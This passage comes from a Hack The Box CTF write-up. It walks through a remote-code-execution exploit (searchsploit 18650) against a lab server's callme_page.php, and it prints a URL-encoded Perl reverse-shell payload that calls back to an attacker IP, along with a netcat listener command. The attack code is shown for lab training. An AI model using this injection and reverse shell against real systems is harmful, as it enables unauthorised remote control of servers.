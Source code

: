 One thing to notice is that several of the vulnerabilities mention cgi scripts, which if you read my [Shocker writeup](https://medium.com/@ranakhalil101/hack-the-box-shocker-writeup-w-o-metasploit-feb9e5fa5aa2), you should know that the first thing you should try is the ShellShock vulnerability. This vulnerability affected web servers utilizing CGI \(Common Gateway Interface\), which is a system for generating dynamic web content. If it turns out to be not vulnerable to ShellShock, searchsploit returned a bunch of other exploits we can try.

Based on the results of the enumeration I have done so far, I believe I have enough information to attempt exploiting the machine. If not, we’ll go back and enumerate the other services.

## Solution \#1 <a id="f03a"></a>

This solution involves attacking port 443.

First, transfer the RCE exploit to the attack machine.

```text
searchsploit -m 18650
```

Looking at the code, we need to change the lhost, lport, and rhost.

```text
mport urllib
rhost="10.10.10.7"
lhost="10.10.14.12"
lport=1234
extension="1000"# Reverse shell payload
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'urllib.urlopen(url)
```

Before we run the script, let’s URL decode the **url** parameter to see what it’s doing.

```text
'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"'+str(lhost)+':'+str(lport)+'");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

It seems like a command injection that sends a reverse shell back to our attack machine. Let’s setup a netcat listener on the configured lhost & lport to receive the reverse shell.

```text
nc -nlvp 1234
```

Run the script.

```text
python 18650.py
```
